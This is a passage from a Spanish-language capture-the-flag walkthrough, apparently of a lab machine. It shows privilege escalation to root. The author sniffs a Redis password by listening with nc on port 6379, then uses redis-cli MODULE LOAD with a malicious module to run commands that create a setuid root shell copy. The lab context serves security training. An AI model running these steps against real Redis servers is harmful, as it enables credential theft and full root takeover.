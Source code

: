 ```bash
# mhil4ne@kali
scp -i dan_smith_id_rsa "dan_smith@$rhost:/usr/local/bin/redis_connector_dev" .
chmod +x redis_connector_dev
```

Ejecutando el archivo en la máquina atacante, obtenemos un error quejándonos de que el puerto TCP 6379 está cerrado en la dirección loopback. Podemos abrir ese puerto ejecutando nc en una pestaña separada.

```bash
# mhil4ne@kali
nc -lv 127.0.0.1 6379
```

Ahora si ejecutamos ``./redis_connector_dev{:.filepath}`` obtenemos alguna salida al listener.

```bash
Connection received on localhost 35468
*2
$4
auth
$16
[REDACTED]
```

Se pasan las cadenas auth y [REDACTED]. Dadas las circunstancias, la segunda cadena parece que puede ser la contraseña, así que vamos a intentar usarla con el comando redis-cli en la máquina de destino.

```bash
# dan_smith@shared.htb (SSH)
redis-cli -a "$password" INFO server
```

El comando de servidor INFO se ejecuta correctamente. Mientras ejecutamos algunos comandos de enumeración adicionales descubrimos que el almacén de redis está prácticamente vacío.

```bash
# dan_smith@shared.htb (SSH)
redis-cli -a "$password" INFO keyspace
```

Después de algunas investigaciones sobre redis, nos encontramos con esta página que presenta diferentes métodos para lograr RCE en un servidor ``redis``. Esto es útil para nosotros porque el usuario que ejecuta el servidor redis es root, lo que significa que ejecutaremos comandos como root si RCE es posible.

Un método es cargar un archivo especial de objetos compartidos usando la consulta MODULE LOAD. Podemos construir el objeto compartido desde este código fuente en la máquina atacante, luego copiar ``module.so{:.filepath}`` al objetivo.

```bash
# james_mason@shared.htb (SSH)
command="cp /bin/sh /root_sh;chmod a+xs /root_sh"
redis-cli -a "$password" MODULE LOAD ~/module.so &&
	redis-cli -a "$password" system.exec "$command"
/root_sh -p
```
Ejecutar esto nos debe aterrizar un shell como root donde la última bandera se puede encontrar en ``/root/root.txt{:.filepath}``